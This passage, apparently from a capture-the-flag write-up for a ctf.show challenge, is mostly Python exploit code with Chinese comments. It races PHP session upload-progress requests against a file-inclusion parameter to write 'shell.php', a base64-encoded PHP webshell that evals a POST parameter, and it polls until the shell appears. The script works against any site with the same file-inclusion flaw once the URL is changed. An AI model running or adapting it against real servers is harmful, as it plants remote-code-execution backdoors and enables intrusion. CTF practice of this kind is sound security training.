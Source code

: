 ```python
    t.start()
    threads.append(t)

for t in threads:
    t.join()
```


### get表单类型

```python
import requests
import threading
import signal


# -------------------------------------必要参数填写-----------------------------------------------
url = 'https://8b407aca-4050-4e88-bee7-f01e3078944f.challenge.ctf.show/'
# get参数名（文件包含点）
get_param = 'path'


# -------------------------------------临时文件上传-----------------------------------------------
sessionid = 'ctfshow'
session_path = '/tmp/sess_' + sessionid
webshell_name = 'shell.php'
url = url.replace("https", "http")
if not url.endswith('/'):
    url += '/'
# 监控ctrl c
stop_event = threading.Event()
data = {
    # 包含临时session文件，生成稳定webshell
    'PHP_SESSION_UPLOAD_PROGRESS': f'<?php $a=base64_decode("PD9waHAgaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pO2V2YWwoJF9QT1NUWzFdKTs=");file_put_contents("{webshell_name}",$a);?>',
}
file = {'file': sessionid}
cookies = {'PHPSESSID': sessionid}

# 上传文件函数
def upload_file():
    while not stop_event.is_set():
        requests.post(url, data=data, files=file, cookies=cookies)
# 检查文件是否已创建
def check_file():
    while not stop_event.is_set():
        # session文件路径可能不同
        tmp_url = f"{url}?{get_param}={session_path}"
        # print('尝试访问：', tmp_url)
        requests.get(tmp_url)
        r = requests.get(url + webshell_name)
        if r.status_code == 200 and 'eval' in r.text:
            print('Webshell created successfully')
            print(r.text)
            stop_event.set()
            break
        else:
            print('error：', r.status_code)
# Ctrl+C 捕获处理
def signal_handler(sig, frame):
    print("\nCtrl+C 捕获，正在退出...")
    stop_event.set()
signal.signal(signal.SIGINT, signal_handler)

```